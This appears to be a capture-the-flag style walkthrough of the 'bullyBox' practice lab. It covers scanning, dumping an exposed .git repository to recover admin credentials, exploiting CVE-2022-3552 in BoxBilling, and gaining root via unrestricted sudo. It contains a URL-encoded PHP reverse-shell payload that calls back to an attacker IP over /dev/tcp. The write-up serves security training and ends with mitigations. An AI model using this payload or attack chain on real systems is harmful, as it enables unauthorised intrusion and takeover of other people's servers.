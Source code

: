 ```yaml
---
title: bullyBox
date: 2025-05-04
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2022-3552, git, git-dumper] 
image: bullybox.jpg
media_subpath: /assets/img/posts/2025-05-04-bullybox/
---
```


## Introduction

In this walkthrough, I exploited a PG Practice machine running BoxBilling CMS. Upon scanning the target, I identified ports **22** (SSH) and **80** (HTTP) as open. After resolving the domain `bullybox.local` by adding it to my `/etc/hosts` file, I navigated to the web interface and discovered that the site was running **BoxBilling CMS version 4.22.1.5**, which I confirmed by inspecting the page source.

To gain administrative access, I conducted a `gobuster` directory scan and discovered an exposed **.git** directory. Using `git-dumper`, I cloned the repository locally and analyzed its contents. Within the dumped files, I found credentials for an admin account. Using these credentials, I logged into the admin panel and exploited a known vulnerability — **CVE-2022-3552** — to gain a foothold on the system.

After obtaining initial shell access, I enumerated further and discovered that the current user had unrestricted **sudo** privileges. By running `sudo su`, I escalated my privileges and obtained a root shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 80

- Version - Apache httpd 2.4.52
    
    ```bash
    searchsploit Apache 2.4.52
    ```
    
    The following exploits are added to the Loot for worst case:
    
    - [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
    - [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

- We navigating to the site it fails to find `bullybox.local` add that to `/etc/hosts` file.
- **robots.txt and sitemap.xml**
    
    ![image.png](image%202.png)
    
    When navigating to uploads I noticed admin user email:
    
    `admin@bullybox.local`
    

We see that Boxbilling version of `4.22.1.5`:

![image.png](image%203.png)

Searching for public exploits we can find one:
[BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51108&ved=2ahUKEwjcz67twImNAxXl_rsIHeukHjEQFnoECBkQAQ&usg=AOvVaw2pVMqgdik2CPa2VhCDdofl)

I registered as `kh4n@gmail.com : password123` and tried running the exploit. But it mentions that we need to be admin. I noticed from Gobuster scan that our server acting as non-bare git repo that and contains `.git` directory. We can use `git-dumper` and dump that repo locally.

[git-dumper](https://notes.benheater.com/books/web/page/git-dumper)

![image.png](image%204.png)

In Python virtual environment install `git-dumper`:

```bash
mkdir venv
cd venv
python3 -m venv .venv
source .venv/bin/activate
pipx install git-dumper
```

Then run:

```bash
git-dumper http://bullybox.local/.git git_loot
```

Reading `bb-config.php` file we can see admin user and their password:

![image.png](image%205.png)

## Loot

- [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
- [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

## Credentials

```bash
admin@bullybox.local : Playing-Unstylish7-Provided
```

I used this [POC](https://github.com/0xk4b1r/CVE-2022-3552/tree/main) but couldn’t get a reverse shell.

```bash
python3 CVE-2022-3552.py  -d http://192.168.164.27 -u admin@bullybox.local -p Playing-Unstylish7-Provided
```

I saw that person in ExploitDB page URL encoded phpinfo, that’s why I URL-encoded reverse shell in POC.

```php
<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.155/80+0>%261'")%3b%3f>
```

![image.png](image%206.png)

But this didn’t work either. So I changed to original ExploitDB POC.

I intercepted request then changed its request method in Burp and make it similar to the one provided in POC.

 Right in Burp Suite I URL-encoded the shell using **CTRL+U**.

![image.png](image%207.png)

And then accessed it from browser:

![image.png](image%208.png)

Now I got a shell.

![image.png](image%209.png)

## Privilege Escalation

Right with `id` command we can see that we are in `sudo` group.

![image.png](image%2010.png)

Ridiculously we can execute any command without a password as root:

```bash
sudo -l
```

![image.png](image%2011.png)

```bash
sudo su
```

![image.png](image%2012.png)

Now we are root!

## Mitigation

- **Restrict access to sensitive directories** like `.git` on production web servers using `.htaccess` or web server configuration.
- **Update BoxBilling CMS** to the latest patched version to avoid known vulnerabilities such as CVE-2022-3552.
- **Use strong, unique credentials** and avoid hardcoding them in repositories.
- **Implement proper sudo policy**: Restrict `sudo` access and use role-based access controls to limit privilege escalation opportunities.
- **Perform regular security audits** and code reviews to catch exposed secrets and configuration flaws before deployment.

